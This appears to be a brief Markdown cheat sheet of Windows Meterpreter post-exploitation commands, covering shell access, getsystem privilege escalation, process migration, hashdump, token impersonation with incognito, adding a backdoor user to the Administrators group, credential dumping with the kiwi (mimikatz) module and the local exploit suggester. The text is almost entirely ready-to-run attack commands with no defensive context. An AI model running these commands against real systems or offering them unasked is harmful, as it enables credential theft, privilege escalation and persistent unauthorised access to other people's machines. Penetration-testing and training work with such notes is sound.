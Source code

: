 # windows meterpreter

## shell access (cmd & powershell)

1. for cmd.exe `shell`
2. for powershell
    1. `load powershell`
    2. `powershell_shell`

## windows specific commands

```bash
getuid
getsystem
getprivs

migrate <system-process>

hashdump
```

## incognito | [milkdevil/incognito2](https://github.com/milkdevil/incognito2)

```bash
load incognito
list_tokens -g
impersonate_token "<token>"

# for better results
migrate <pid>
add_user <user> <pass>
add_localgroup Administrators <user>
```

## mimikatz

```bash
load kiwi
creds_all
```

## local exploit suggester

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <>; run
```